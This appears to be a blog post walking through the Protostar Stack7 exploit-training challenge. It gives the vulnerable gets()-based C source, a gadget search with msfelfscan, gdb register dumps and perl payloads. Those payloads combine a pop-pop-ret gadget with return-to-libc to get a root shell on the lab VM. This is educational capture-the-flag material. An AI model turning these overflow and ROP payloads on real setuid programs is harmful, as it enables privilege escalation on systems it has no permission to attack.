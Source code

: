 ```yaml
---
layout: post
title:  "Protostar Stack7 challenge"
date:   2018-05-04 10:05:36 +0530
categories: exploit-exercises protostar stack7
---
```

[Stack7][stack7-link] is the last challenge in the [Protostar][protostar-link] series of challenges.
The source code for this challenge is below 
{% highlight cpp %} 
#include <stdlib.h> 
#include <unistd.h>
#include <stdio.h> 
#include <string.h>

char getpath() 
{ 
	char buffer[64]; 
	unsigned int ret; 
	printf("input path please: "); 
	fflush(stdout); gets(buffer); 
	ret = __builtin_return_address(0); 
	if((ret & 0xb0000000) == 0xb0000000) 
	{ 
		printf("bzzzt (%p)\n", ret); 
		_exit(1); 
	} 
	printf("got path %s\n", buffer); 
	return strdup(buffer); 
} 
int main(int argc, char **argv) 
{ 
	getpath(); 
} 
{% endhighlight %} 
We see there is a check for return address ret starting with `0xb`. 
If we remember from our attempt at solving [stack6][stack6-proto-link] the return address check has further been broadened from addresses starting with `0xbf` to `0xb`.
This would mean that we cannot use `Return to libc` technique to solve this challenge. Since the libc `system` and `exit` calls had addresses starting with `0xb` we cannot use them in this challenge.
This challenge description mentions using `return to .text`. A quick google search pointed to this being a sort of return oriented programming technique.
Now it had been some time since I had studied about ROP so this [coursera-rop-video][courser-rop-video-link] was a nice refresher on basics of the technique.
I used metasploit to find the location of gadgets to be used for ROP. I copied the executable of stack7 to ubuntu machine where metasploit was installed for finding the address of gadgets.
{% highlight shell %} 
VirtualBox:$ msfelfscan --help 
Usage: /opt/metasploit-framework/bin/../embedded/bin/msfelfscan [mode] [targets] 
Modes: 
	-j, --jump [regA,regB,regC] Search for jump equivalent instructions 
	-p, --poppopret Search for pop+pop+ret combinations 
	-r, --regex [regex] Search for regex match 
	-a, --analyze-address [address] Display the code at the specified address 
	-b, --analyze-offset [offset] Display the code at the specified offset 
Options: 
	-A, --after [bytes] Number of bytes to show after match (-a/-b) 
	-B, --before [bytes] Number of bytes to show before match (-a/-b) 
	-D, --disasm Disassemble the bytes at this address 
	-I, --image-base [address] Specify an alternate ImageBase 
	-h, --help Show this message 
{% endhighlight %}
Since `poppopret` type gadgets were used in video tutorial link i tried to search executable for them.
{% highlight shell %}
VirtualBox:~$ msfelfscan -p stack7
[stack7]
0x08048492 pop ebx; pop ebp; ret
0x080485c7 pop edi; pop ebp; ret
0x080485f7 pop ebx; pop ebp; ret
{% endhighlight %}
So we have three poppopret gadgets available to us. Let us use first one at `0x08048492`. So our return address will be `0x08048492` this time. Since this gadget has two `pop` instructions, the next two values in payload will be popped to respective registers and next value will be our next return address.
So payload should look like `[junk uptil RET][RET=addr gadget-poppopret][pop1 val][pop2 val][next RET addr]`. Lets check if we're correct in `protostar` VM image.
{% highlight shell %}
user@protostar:~$ perl -e 'print "A"x80 . "\x92\x84\x04\x08" . "B"x4 . "C"x4 . "D"x4 . "E"x100 ' > payload
user@protostar:~$ gdb /opt/protostar/bin/stack7
(gdb) r < payload
Starting program: /opt/protostar/bin/stack7 < payload
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��AAAAAAAAAAAA��BBBBCCCCDDDDEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEE
Program received signal SIGSEGV, Segmentation fault.
0x44444444 in ?? ()
(gdb) info r
eax            0x804a008    134520840
ecx            0x0  0
edx            0x1  1
ebx            0x42424242   1111638594
esp            0xbffff7dc   0xbffff7dc
ebp            0x43434343   0x43434343
esi            0x0  0
edi            0x0  0
eip            0x44444444   0x44444444
eflags         0x210202 [ IF RF ID ]
cs             0x73 115
ss             0x7b 123
ds             0x7b 123
es             0x7b 123
fs             0x0  0
gs             0x33 51
(gdb) x/10s $esp
0xbffff7dc:  'E' <repeats 100 times>
0xbffff841:  ""
0xbffff842:  ""
0xbffff843:  ""
0xbffff844:  "\020b\377\267\233\333\352\267\364\357\377\267\001"
0xbffff852:  ""
0xbffff853:  ""
0xbffff854:  "\020\204\004\b"
0xbffff859:  ""
0xbffff85a:  ""
{% endhighlight %}
`info r` shows that `$ebx` register has been overwritten with B, `$ebp` has been with C and `$eip` the instruction pointer has been overwritten with DDDD ie `0x44444444`.
Since this value was used as return address we get a `SIGSEGV`.
Also `x/10s $esp` shows us that `$esp` now points to EEEE.... 
Now since we have passed the check for `RET` address we can user `ret-to-libc` technique further complete the exploit.
So we have space after second RET too. So if we want to implement this exploit using shellcode we can either put our shellcode where we have placed AAA or we can place it after second RET. Also we can try placing our shellcode in an enviromment variable and returning to it.
Repeating steps for [Stack6][stack6-my] we create an enviromment variable and get its address when running `stack7` and also get address of `system` and `exit` calls for `ret-to-libc`
{% highlight shell %}
user@protostar:~$ export EGG="/bin/sh"
user@protostar:~$ ./getenvaddr EGG /opt/protostar/bin/stack7
EGG will be at 0xbffffa02
user@protostar:~$ gdb /opt/protostar/bin/stack7 
(gdb) b main
Breakpoint 1 at 0x804854b: file stack7/stack7.c, line 28.
(gdb) r
Starting program: /opt/protostar/bin/stack7 
Breakpoint 1, main (argc=1, argv=0xbffff784) at stack7/stack7.c:28
28  stack7/stack7.c: No such file or directory.
    in stack7/stack7.c
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7ec60c0 <*__GI_exit>
{% endhighlight %}
So now our payload shall look like `[junk uptil RET][RET=addr gadget-poppopret][pop1 val][pop2 val][system][exit][/bin/sh]`.
Note `[pop1 val]` and `[pop2 val]` can be any junk value as they will be stored to `ebx` and `ebp` which we will not be using.
Using perl to create payload combining `ROP` and `ret-to-libc` we are able to successfully spwan a shell
{% highlight shell %}
user@protostar:~$ perl -e 'print "A"x80 . "\x92\x84\x04\x08" . "B"x4 . "C"x4 ."\xb0\xff\xec\xb7" . "\xc0\x60\xec\xb7" . "\x02\xfa\xff\xbf"' > payload
user@protostar:~$ (cat payload; cat) | /opt/protostar/bin/stack7
input path please: 
got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��AAAAAAAAAAAA��BBBBCCCC�����`�����
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
whoami
root
{% endhighlight %}

[stack7-link]:https://exploit.education/protostar/stack-seven/
[protostar-link]:https://exploit.education/protostar/
[stack6-proto-link]:https://exploit.education/protostar/stack-six/
[courser-rop-video-link]:https://www.youtube.com/watch?v=XZa0Yu6i_ew
[stack6-my]: https://rawatm.github.io/exploit-exercises/protostar/stack6/2018/04/22/protostar-exploit-exercises-stack6/